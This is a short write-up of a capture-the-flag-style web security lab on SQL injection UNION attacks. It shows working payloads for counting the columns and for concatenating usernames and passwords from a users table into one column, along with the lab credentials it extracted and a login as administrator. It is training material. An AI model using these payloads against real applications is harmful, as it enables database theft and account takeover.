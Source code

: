 # Lab: SQL injection UNION attack, retrieving multiple values in a single column

In this article, only one of the columns is processed as a printout on the page. The printout will determine which column is printed on the screen, and then print the user name and password in the corresponding column.

![sql lab6 01](resources/sql-lab6-01.png)

We remember from previous laboratories that there was SQL injection in Category parameter.


![sql lab6 02](resources/sql-lab6-02.png)

we identified 2 columns as follows.

PAYLOAD: `‘+UNION+SELECT+NULL,NULL—`


![sql lab6 03](resources/sql-lab6-03.png)

let's get a cyber statement printed on column 2.

PAYLOAD: `‘+UNION+SELECT+NULL,’siber’ —`


![sql lab6 04](resources/sql-lab6-04.png)

2.we can use the following payload because we want the display to be the username and password for the statement to be written in the column:

PAYLOAD: `‘+UNION+SELECT+NULL,username||’~’||password+FROM+users —`

![sql lab6 05](resources/sql-lab6-05.png)

Creds:

`wiener~qi6rwofv0ux0yjcecm2y`

`carlos~lmnncl5uq0hqqdqb92do`

`administrator~j221x00uaz0e8rdflvmh`

We're logging into the system with the credentials of the Administrator user.


![sql lab6 06](resources/sql-lab6-06.png)

After logging into the system, we successfully complete the lab!


![sql lab6 07](resources/sql-lab6-07.png)